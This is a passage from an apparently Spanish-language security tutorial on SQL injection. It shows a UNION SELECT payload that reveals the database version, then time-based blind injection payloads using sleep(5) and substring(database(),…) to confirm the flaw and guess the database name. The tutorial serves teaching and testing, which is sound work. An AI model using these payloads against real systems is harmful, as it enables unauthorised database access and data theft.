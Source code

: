 ```sql
test' UNION SELECT 1,@@version,3,4,5,6,7-- -
```

[![sqlinjectversiondetect](/images/sqlinjectversiondetect.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectversiondetect.png)

### SQL Injection Blind Attack (Time-Based)

El Blind SQL Injection es aquella aplicacion web en donde no se ve el error en la respuesta tras la inyección. En esta ocasión se ocupará el parámetro ```SLEEP()```, para conocer información de la base de datos. Esto último hace referencia a lo que se conoce como "Time-Based", en que en lugar de obtener una respuesta inmediata, el atacante hace uso de una técnica de "atraso" o "temporización" para determinar si la consulta fue exitosa, lo que dificulta la detección del ataque.

Primero identificamos la vulnerabilidad, en este caso hay diversas formas de identificarlo, pero para esta situación ocuparemos la siguiente inyección:

```sql
iron man' AND sleep(5)-- -
```

[![sqlinjectblindsleep1](/images/sqlinjectblindsleep1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep1.png)


Se detectan 5 segundos de espera antes de que cargue la página, lo que confirma la vulnerabilidad:

[![sqlinjectblindsleep2](/images/sqlinjectblindsleep2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep2.png)


Tras confirmar la vulnerabilidad, podemos comenzar a buscar el nombre de la base de datos, esto se realiza por medio de la siguiente inyección:

```sql
iron man' AND substring(database(),1,1)='a' AND sleep(5)-- -
```

[![sqlinjectblindsleep3](/images/sqlinjectblindsleep3.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep3.png)
